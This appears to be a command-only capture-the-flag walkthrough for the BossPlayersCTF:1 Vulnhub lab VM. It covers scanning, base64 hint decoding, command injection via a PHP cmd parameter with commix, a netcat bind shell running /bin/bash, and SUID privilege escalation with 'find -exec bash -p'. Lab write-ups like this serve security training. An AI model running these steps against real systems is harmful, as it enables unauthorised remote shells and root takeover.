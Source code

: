 # WU_bossplayersCTF1-Vulnhub
Write Up BossPlayersCTF:1 VM Vulnhub

## Netdiscover
`sudo netdiscover -r 192.168.87.0/24`

## nmap
`sudo nmap 192.168.87.4 -A -p- -oN log-nmap.log`

## HTTP
`http://192.168.87.4/`

## robots.txt file
`http://192.168.87.4/robots.txt`

## Decode Password
`echo bG9sIHRyeSBoYXJkZXIgYnJvCg== | base64 -d`

## Source Code of the initial webpage
`Ctrl + U`

`WkRJNWVXRXliSFZhTW14MVkwaEtkbG96U214ak0wMTFZMGRvZDBOblBUMEsK`

## Decode Again
```
1. echo WkRJNWVXRXliSFZhTW14MVkwaEtkbG96U214ak0wMTFZMGRvZDBOblBUMEsK | base64 -d
2. echo WkRJNWVXRXliSFZhTW14MVkwaEtkbG96U214ak0wMTFZMGRvZDBOblBUMEsK | base64 -d | base64 -d
3. echo WkRJNWVXRXliSFZhTW14MVkwaEtkbG96U214ak0wMTFZMGRvZDBOblBUMEsK | base64 -d | base64 -d | base64 -d

```

## PHP File 
`http://192.168.87.4/workinginprogress.php`

## Whoami URL
`http://192.168.87.4/workinginprogress.php?cmd=whoami`

## Commix
`commix -u 'http://192.168.87.4/workinginprogress.php?cmd=whoami'`
```
nc -e /bin/bash -lvp 2048
```

## Netcat
`nc 192.168.87.4 2048`

```
uname -a

find / -perm -4000 -type f 2>/dev/null
```

## Privilege Escalation
```
find -exec bash -p \;
whoami
ls -al /root
cat /root/root.txt
cat /root/root.txt | base64 -d
```